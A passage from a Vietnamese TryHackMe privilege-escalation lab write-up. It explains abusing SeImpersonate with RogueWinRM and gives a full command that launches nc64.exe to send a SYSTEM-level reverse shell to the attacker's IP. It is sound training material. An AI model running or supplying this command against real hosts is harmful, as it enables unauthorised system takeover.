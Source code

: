 4. Nếu có SeImpersonate, kẻ tấn công có thể thực thi lệnh với quyền SYSTEM thông qua phiên kết nối này.

Trước khi chạy khai thác, khởi động trình nghe netcat để nhận reverse shell trên máy của kẻ tấn công:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image230.png?raw=true)

Sau đó, sử dụng web shell để kích hoạt hoạt động khai thác RogueWinRM bằng lệnh sau:

    c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe 10.8.13.3 4442"

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image231.png?raw=true)

Tham số -p chỉ định tệp thực thi sẽ được chạy bằng cách khai thác, đó là nc64.exe trong trường hợp này. Tham số -a được sử dụng để truyền đối số cho tệp thực thi. Vì muốn nc64 thiết lập một reverse shell chống lại máy tấn công của nên các đối số được chuyển tới netcat sẽ là -e cmd.exe ATTACKER_IP 4442.

Nếu tất cả đã được thiết lập chính xác, một shell có các đặc quyền SYSTEM:

